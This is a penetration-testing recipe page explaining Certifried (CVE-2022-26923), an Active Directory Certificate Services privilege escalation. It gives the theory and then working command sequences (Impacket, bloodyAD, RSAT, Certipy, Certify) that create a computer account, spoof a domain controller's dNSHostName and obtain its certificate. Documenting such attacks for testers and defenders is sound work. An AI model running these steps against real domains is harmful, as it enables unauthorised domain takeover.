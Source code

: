 ```yaml
---
description: CVE-2022–26923
---
```


# Certifried

## Theory

[Certifried (CVE-2022-26923)](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) is a vulnerability discovered by [Oliver Lyak](https://twitter.com/ly4k\_) on AD CS that lets a domain-joined user escalate its privileges in the domain.

A domain user creating a computer account obtains the `Validated write to DNS host name`  and `Validated write to service principal name` permissions (among other rights). Therefore, the user is allowed to change the DNS host name (`dNSHostName`) and SPN (`servicePrincipalName`) attributes of the computer account.

Computer accounts (using the `Machine` template) use the value of the `dNSHostName` property for authentication. Attempting to change the `dNSHostName` to match another computer account raises a constraint error.&#x20;

In fact, the moment the `dNSHostName` property is edited, the domain controller makes sure to update the existing SPNs of the account so that the "hostname" part of it is updated to the new DNS hostname. If the SPNs already exist for another account in Active Directory, the domain controllers raises the constraint violation.

The trick found by Oliver goes as follows:

1. clear the SPNs (or at least those that reflect the `dNSHostName` value, i.e. the ones with fully-qualified hostnames, e.g. `HOST/SRV01.DOMAIN.LOCAL`)
2. change to `dNSHostName` to a target's DNS hostname (e.g. `DC.DOMAIN.LOCAL`). The constraint violation won't be raised since there won't be any SPN to update
3. request a certificate for the computer account using the `Machine` template. The Certificate Authority will use the `dNSHostName` value for identification and issue a certificate for the Domain Controller.
4. Authenticate as the DC.

A patch was released in may 2022 to address this vulnerability: [more information here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#db1c) and on [#certificate-mapping](certificate-templates.md#certificate-mapping "mention").

## Practice

Requesting a certificate based on the `Machine` (or `User`) template can indicate whether the patch has been applied or not. If the certificate object contains an SID (`objectSid`), then the patch has been applied.

{% tabs %}
{% tab title="UNIX-like" %}
This check can be conducted using [Certipy](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwjCp86j1fb3AhWpzYUKHSMeBFoQFnoECA8QAQ\&url=https%3A%2F%2Fgithub.com%2Fly4k%2FCertipy\&usg=AOvVaw1D9CAn7Ysn5XMdezp8Aemb) (Python).

{% code overflow="wrap" %}
```bash
ccertipy req -u 'user@domain.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'
```
{% endcode %}

If Certipy doesn't print `Certificate object SID is [...]` after obtaining the certificate, then the attack can be conducted.

{% hint style="warning" %}
Oliver [underlined](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#08a1) the fact that to fully mitigate the vulnerability, both the KDC and the CA server must be patched.
{% endhint %}
{% endtab %}

{% tab title="Machine" %}
_At the time of writing this recipe, June 2022, no Windows alternative has been found._
{% endtab %}
{% endtabs %}

The first step of the attack consists of creating a computer account, or have the write permission to the `dNSHostName`, and the `SPN` on any other computer account.

{% hint style="success" %}
By default, a domain user can create up to 10 computer accounts by leveraging the [Machine Account Quota](https://www.thehacker.recipes/ad/movement/domain-settings/machineaccountquota) (MAQ) attribute.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
Verification of the MAQ attribute value using [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec).

```bash
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN_FQDN -u $USER_NAME -p $USER_PASSWORD -M maq
```

Creating a computer account using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer.py script.

```bash
addcomputer.py $DOMAIN_FQDN/$USER_NAME:$USER_PASSWORD -computer-name $COMPUTER_NAME -computer-pass $COMPUTER_PASSWORD
```
{% endtab %}
{% endtabs %}

The second step is conducted by removing the `RestrictedKrbHost` and `HOST` entry (of the `SPN`), and then modifying the `dNSHostName` to the name of the computer account to usurpate.

{% tabs %}
{% tab title="UNIX-like" %}
Using the [bloodyAD](https://github.com/CravateRouge/bloodyAD) tool.

```bash
# Removing all the SPN entries
python3 bloodyAD.py -d $DOMAIN_FQDN -u $USER_NAME -p $USER_PASSWORD --host $DC_IP setAttribute 'CN=$COMPUTER_NAME,CN=Computers,DC=$DC,DC=$DC' serviceprincipalname '[]'

# Adding a dNSHostName value to the name of a computer account to usurpate
python3 bloodyAD.py -d $DOMAIN_FQDN -u $USER_NAME -p $USER_PASSWORD --host $DC_IP setAttribute 'CN=$COMPUTER_NAME,CN=Computers,DC=$DC,DC=$DC' dnsHostName '["$DC_NAME.$DOMAIN_FQDN"]'

# Verifying the setted dNSHostName value and SPN entries
python3 bloodyAD.py -d $DOMAIN_FQDN -u $USER_NAME -p $USER_PASSWORD --host $DC_IP getObjectAttributes 'CN=$COMPUTER_NAME,CN=Computers,DC=$DC,DC=$DC' dnsHostName,serviceprincipalname
```

{% hint style="info" %}
The Domain Component (DC) will depend on the targeted domain:

* Example with `hacker.com`: `DC=hacker,DC=com`
* Exemple with `the.hacker.com`: `DC=the,DC=hacker,DC=com`
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
Using the [Active Directory RSAT](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) tools.

```bash
# Removing all the SPN entries
Set-ADComputer $COMPUTER_NAME -ServicePrincipalName @{}

# Adding a dNSHostName value to the name of a computer account to usurpate
Set-ADComputer $COMPUTER_NAME -DnsHostName $DC_NAME.$DOMAIN_FQDN

# Verifying the setted dNSHostName value and SPN entries
Get-ADComputer $COMPUTER_NAME -properties dnshostname,serviceprincipalname
```
{% endtab %}
{% endtabs %}

The third and last step consists on getting the certificate of the targeted machine account (`$DC_NAME` in the previous command examples).

{% tabs %}
{% tab title="UNIX-like" %}
Using [Certipy](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwjCp86j1fb3AhWpzYUKHSMeBFoQFnoECA8QAQ\&url=https%3A%2F%2Fgithub.com%2Fly4k%2FCertipy\&usg=AOvVaw1D9CAn7Ysn5XMdezp8Aemb) we can request a certificate.

```bash
certipy req $DOMAIN_FQDN/$COMPUTER_NAME\$:$COMPUTER_PASSWORD@$CA_SERVER_IP -ca $CA_NAME -template Machine
```

The certificate can then be used with [Pass-the-Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate) to obtain a TGT and authenticate.

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
Using [Certify](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwiQmZer1fb3AhVBhRoKHSCyAMoQFnoECAcQAQ\&url=https%3A%2F%2Fgithub.com%2FGhostPack%2FCertify\&usg=AOvVaw0HjmYWwbHvGKTA3-f1iPP0) we can request a certificate.

```bash
Certify.exe request /ca:$DOMAIN_FQDN\$CA_NAME /template:Machine
```

The certificate can then be used with [Pass-the-Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4" %}

{% embed url="https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923" %}

{% embed url="https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html" %}

{% embed url="https://tryhackme.com/room/cve202226923" %}
